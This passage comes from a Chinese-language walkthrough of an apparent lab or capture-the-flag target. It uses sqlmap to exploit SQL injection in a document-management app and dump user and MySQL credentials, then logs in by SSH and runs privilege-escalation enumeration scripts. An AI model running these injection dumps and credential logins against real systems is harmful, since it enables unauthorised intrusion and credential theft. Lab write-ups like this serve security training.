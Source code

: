 [![](assets/1704158282-123c0bec2cbea57b68d9550d23463a7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010618-6ab1d304-a5a3-1.png)

<3> 使用 sqlmap 跑一遍，方便拿到更多信息。因为过滤了单引号，可以尝试调高探测等级。

```bash
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 -D jabcd0cs -T odm_user -C username,password --dump
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --current-user
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --is-dba
```

> root@localhost，DBA 权限  
> 从 jabcd0cs.odm\_user 获取到以下用户凭证信息（需 md5 解密）：webmin:webmin1980 guest:guest  
> 从 mysql.user 获取到以下用户凭证信息：root:toor phpmyadmin:toor drupal7:toor

# 立足点 1：shell as user1（ssh）

既然从数据库拿到了登录凭据，则尝试进行 SSH，使用 `webmin:webmin1980` 进行 ssh 登录成功。拿到初始访问权限。

```bash
ssh webmin@192.168.50.10
```

# 0x05 提权信息收集、漏洞探针

`LinEnum.sh` 脚本自动执行提权过程中可能用到的几十条命令并整理输出，有关键的发现会以黄色标题突出显示。使用`linux-exploit-suggester.sh`脚本进行漏洞探针

```bash
scp LinEnum.sh webmin@192.168.50.10:/tmp

./LinEnum.sh -r linenum_info -e /tmp/ -t
./linuxprivchecker.py -w -o linuxprivchecker.log
./linux-exploit-suggester.sh -g

//文件/home/webmin/post.tar.gz
tar -zxvf post.tar.gz
file post.tar.gz
binwalk post.tar.gz
```
